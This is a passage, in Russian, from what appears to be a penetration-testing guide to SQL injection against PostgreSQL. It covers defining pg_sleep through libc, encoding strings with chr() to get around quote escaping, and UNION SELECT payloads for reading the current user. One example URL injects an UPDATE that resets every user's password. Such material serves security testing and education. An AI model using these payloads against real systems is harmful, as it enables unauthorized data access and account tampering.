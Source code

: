 Кроме того, вы можете легко создать заказ `pg_sleep(n)` в предыдущих версиях с использованием libc :

- `CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT`

### Одиночная цитата Unescape

Строки могут быть закодированы, чтобы предотвратить экранирование одинарных кавычек с помощью `chr()` функция.

- `chr(n)`: возвращает символ, значение ASCII которого соответствует номеру `n`
- `ascii(n)`: возвращает значение ASCII, которое соответствует символу `n`

Допустим, вы хотите кодировать строку 'root':

```sql
select ascii('r')
114
select ascii('o')
111
select ascii('t')
116
```

Мы можем кодировать «root» как:

`chr(114)||chr(111)||chr(111)||chr(116)`

#### Пример

`http://www.example.com/store.php?id=1; UPDATE users SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)--`

### Атакующие векторы

#### Текущий пользователь

Идентификационные данные текущего пользователя можно получить с помощью следующих операторов SQL SELECT:

```sql
SELECT user
SELECT current_user
SELECT session_user
SELECT usename FROM pg_user
SELECT getpgusername()
```

##### Пример

```text
http://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--
http://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--
```

#### Текущая база данных
